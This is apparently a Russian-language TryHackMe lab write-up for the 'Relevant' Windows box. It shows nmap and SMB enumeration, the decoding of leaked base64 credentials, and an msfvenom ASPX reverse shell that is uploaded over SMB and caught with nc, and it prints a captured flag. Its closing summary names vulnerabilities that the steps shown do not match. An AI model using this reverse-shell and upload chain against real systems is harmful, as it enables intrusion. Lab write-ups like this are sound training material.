

# TryHackMe - Win Medium - Relevant

📅 Дата: 2025-07-08  
🧠 Сложность: Medium  
💻 IP-адрес: 10.10.254.155  

---

## Sugar

```bash
nmap_ctf() {
  local ip=$1
  sudo nmap -sS -p- -Pn --max-parallelism 100 --min-rate 1000 -v -oN nmap-sS.txt $ip && nmap -sT -Pn -sV -T4 -A -v -p "$(grep -oP \"^[0-9]+(?=/tcp\s+open)\" nmap-sS.txt | sort -n | paste -sd \",\")" -oN nmap-sV.txt $ip
}
```


## 🔍 Сканирование

```bash
export ip=10.10.254.155св && nmap_ctf $ip
```

### nmap
```
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Issuer: commonName=Relevant
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-07-08T02:20:32
| Not valid after:  2026-01-07T02:20:32
| MD5:   1e46:d6c7:4604:540a:ccd8:e6b7:ea06:5a02
|_SHA-1: ac36:0b1f:dec5:2bf3:f5c7:c911:ea43:db6a:662c:adfe
|_ssl-date: 2025-07-09T02:31:24+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2025-07-09T02:30:43+00:00
49663/tcp open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016 (88%)
OS CPE: cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2016 (88%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.008 days (since Tue Jul  8 22:20:19 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-07-09T02:30:47
|_  start_date: 2025-07-09T02:20:32
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-07-08T19:30:45-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h24m01s, deviation: 3h07m51s, median: 0s
```

---

## 🕵️ Enumeration

### smb

Есть уязвимости smb
```
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Relevant/scans]
└─$ sudo nmap -p 445 --script "smb* and not brute" -Pn -sV -T4 --min-rate 5000 $ip

PORT    STATE SERVICE      VERSION
445/tcp open  microsoft-ds Windows Server 2016 Standard Evaluation 14393 microsoft-ds
Service Info: OS: Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-protocols: 
|   dialects: 
|     NT LM 0.12 (SMBv1) [dangerous, but default]
|     2:0:2
|     2:1:0
|     3:0:0
|     3:0:2
|_    3:1:1
|_smb-system-info: ERROR: Script execution failed (use -d to debug)
| smb2-time: 
|   date: 2025-07-09T08:57:07
|_  start_date: 2025-07-09T08:52:17
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-07-09T01:57:14-07:00
| smb-enum-sessions: 
|_  <nobody>
|_smb-vuln-ms10-054: false
| smb-mbenum: 
|_  ERROR: Call to Browser Service failed with status = 2184
|_smb-print-text: false
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-ls: Volume \\10.10.254.155\nt4wrksv
| SIZE   TIME                 FILENAME
| <DIR>  2020-07-25T15:10:05  .
| <DIR>  2020-07-25T15:10:05  ..
| 98     2020-07-25T15:13:05  passwords.txt
|_
| smb2-capabilities: 
|   2:0:2: 
|     Distributed File System
|   2:1:0: 
|     Distributed File System
|     Leasing
|     Multi-credit operations
|   3:0:0: 
|     Distributed File System
|     Leasing
|     Multi-credit operations
|   3:0:2: 
|     Distributed File System
|     Leasing
|     Multi-credit operations
|   3:1:1: 
|     Distributed File System
|     Leasing
|_    Multi-credit operations
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.254.155\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.254.155\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.254.155\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: <none>
|     Current user access: READ/WRITE
|   \\10.10.254.155\nt4wrksv: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|_    Current user access: READ/WRITE
|_smb-flood: ERROR: Script execution failed (use -d to debug)
```

Первым делом интересует шара `nt4wrksv` и найденный там файл `passwords.txt`
```
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Relevant/scans]
└─$ smbclient \\\\$ip\\nt4wrksv -U ""                                             
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jul  9 04:58:32 2025
  ..                                  D        0  Wed Jul  9 04:58:32 2025
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020
mo
                7735807 blocks of size 4096. 4950946 blocks available
smb: \> more passwords.txt
```
```
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

Декодирую их и сохраняю на всякий случай для брутфорса
```
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Relevant/exploits]
└─$ cat pass.txt   
!P@$$W0rD!123
Juw4nnaM4n420696969!$$$
                                                                                                                  
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Relevant/exploits]
└─$ cat users.txt
Bob
Bill
```

### ffuf
поиск директорий для 80 и 49663 портов ничего не дал

Но на порту **49663** проброшена шара **nt4wrksv**



## 📂 Получение доступа


## ⚙️ Привилегии

Создаю реверс шелл
```
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Relevant/exploits]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.21.104.16 LPORT=4444 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3395 bytes
```

И загружаю через smb
```
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Relevant/exploits]
└─$ smbclient //$ip/nt4wrksv -N
Try "help" to get a list of possible commands.
smb: \> put shell.aspx
putting file shell.aspx as \shell.aspx (5.1 kb/s) (average 5.1 kb/s)
smb: \> 
```

Перехожу по `http://10.10.42.142:49663/nt4wrksv/shell.aspx`, получаю сессию и читаю флаг
```
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Relevant/exploits]
└─$ nc -lvnp 4444                                                                               
listening on [any] 4444 ...
connect to [10.21.104.16] from (UNKNOWN) [10.10.42.142] 49706
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool

C:\Users\Bob\Desktop>more user.txt
more user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```

## 🏁 Флаги

- User flag: THM{fdk4ka34vk346ksxfr21tg789ktf45} 
- Root flag: 

---

## 📋 Резюме

🧰 **Инструменты:**
  - nmap, ffuf, и др.

🚨 **Уязвимости, которые удалось обнаружить:**  
  - Directory Traversal  
  - RCE через уязвимый скрипт  

🛡 **Советы по защите:**
  - Использовать сложные пароли и ограничить число попыток входа
  - Обновлять ПО до актуальных версий
  - Удалять/ограничивать использование SUID-бинарников
  - Настроить логирование и мониторинг системных событий
  - Применять принцип наименьших привилегий


